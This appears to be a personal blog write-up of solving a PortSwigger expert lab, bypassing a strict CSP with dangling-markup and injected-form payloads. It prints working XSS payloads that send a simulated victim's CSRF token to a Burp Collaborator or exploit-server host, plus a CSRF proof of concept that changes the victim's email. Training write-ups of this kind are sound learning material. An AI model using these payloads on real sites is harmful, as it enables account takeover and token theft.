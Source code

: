
Today is nearly two years of the first Portswigger Web Security I've solved, I solved the last one. In this blog post, I'll share how I solve it.

## Description of the Lab

- Lab Level: Expert

This lab using a strict [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) that blocks outgoing requests to external web sites.

To solve the lab, first perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and exfiltrates a simulated victim user's [CSRF](https://portswigger.net/web-security/csrf) token using Burp Collaborator. You then need to change the simulated user's email address to `hacker@evil-user.net`.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:

`<a href="">Click me</a>`

You can log in to your own account using the following credentials: `wiener:peter`

The lab has CSP `Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';` which make it harder to be exploited because it prevent all the access to out domains although you can inject HTML tags like `img` or `table`  

The vulnerable parameter is `email` in endpoint `/my-account/change-email` and the XSS payload is being reflected in the `/my-account`

## First Solution 

Portswigger official solution is to use a payload to exploit dangling markup attack by sending `base` tag with attribute `target='` ending in single quote which will make the rest of the page being sent to the exploit server or Burp collaborator client abusing the same `eamil` parameter with link `a` tag as following:

```js
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email="><a href="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit">Click me</a><base target='';
}
</script>
```

![[ln1.png]]

If it sends successfully the name of the DOM `window` name will be changed to obtain the CSRF token then send it to the victim to change it's email address.  

![[ln2.png]]

Unfortunately, this exploit doesn't work anymore on Google Chrome, By only working in Firefox we can't solve the lab because the victim is only using Chrome client.

## Contacting Portswigger Team 

I was wondering why this behavior is like this I read on thread in [their website](https://forum.portswigger.net/thread/lab-reflected-xss-protected-by-csp-with-dangling-markup-attack-288ada8e) of a user complaining of such problem but in 2022 of update on Google Chrome make the lab unsolvable. So, I ask them about it and indeed it was this and they reblied that there is a competition to see if any other users can also figures this out on [X](https://twitter.com/portswiggerres/status/1726605124443750893?s=46) I notice that no one reply on it in the last 4 days then I take it personal challenge to solve it.

## The Problem 

The real problem I'm facing is to make the application callback to exploits server. I tried many 

## The Solution
 
The exploit scenario in my mind: 
- Determine how to make the application callback the exploit server.
- Craft exploit to exflitrate the CSRF token on myslef then the victim.
- Craft a POC to change the email of the email address of the victem after gettting its CSRF token. 

After trying many things I come thought a writeup called [Postcards from the post-XSS world (2011)](https://lcamtuf.coredump.cx/postxss/) indeed it was old but I really was determine to solve it. I a section the witter talk about how you can inject a `form` tag so the parser will ignore the first one and use the one that I craft to get the CSRF token and start with: 

```js 
"></form><form%20class="login-form"%20name="evil-form"%20action="https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log"%20method="POST">
```

After some tries and playing with HTML I know all the factors and how it suppose to work and it finally did!

![[Pasted image 20231125122402.png]]

```js
%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log%22%20method=%22POST%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3E%20Click%20me%20%3C/button%3E
```

![[Pasted image 20231125122458.png]]

Put it in the exploit server:

```
<script>
location='https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account?email=%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log%22%20method=%22GET%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3E%20Click%20me%20%3C/button%3E';
</script>
```

I delivered the exploit to victim and got the CSRF token:

![[Pasted image 20231125113705.png]]

Then go to the `/my-account/change-email` and make a POC using BurpSuite:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="Qqk80OwNNtB2cMUyIanl6OfjlXbydxgf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Finally the lab is solved!

![[solved.png]]

And officially I solved all the Portswigger labs and ranked as on their hall of fame

![[Pasted image 20231125124325.png]]
